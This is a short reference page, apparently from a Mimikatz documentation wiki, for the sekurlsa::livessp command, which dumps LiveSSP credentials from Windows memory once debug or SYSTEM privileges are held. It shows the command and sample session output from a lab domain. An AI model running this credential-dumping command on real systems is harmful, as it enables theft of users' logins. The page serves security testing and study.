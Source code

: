 # livessp

It lists LiveSSP credentials. According to Microsoft, the LiveSSP provider is included by default in Windows 8 and later and is included in the Office 365 Sign-in Assistant.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::livessp

Authentication Id : 0 ; 3151880 (00000000:00301808)
Session           : RemoteInteractive from 2
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 13/10/2021 20:58:08
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730

Authentication Id : 0 ; 3150964 (00000000:00301474)
Session           : RemoteInteractive from 2
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 13/10/2021 20:58:08
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
```
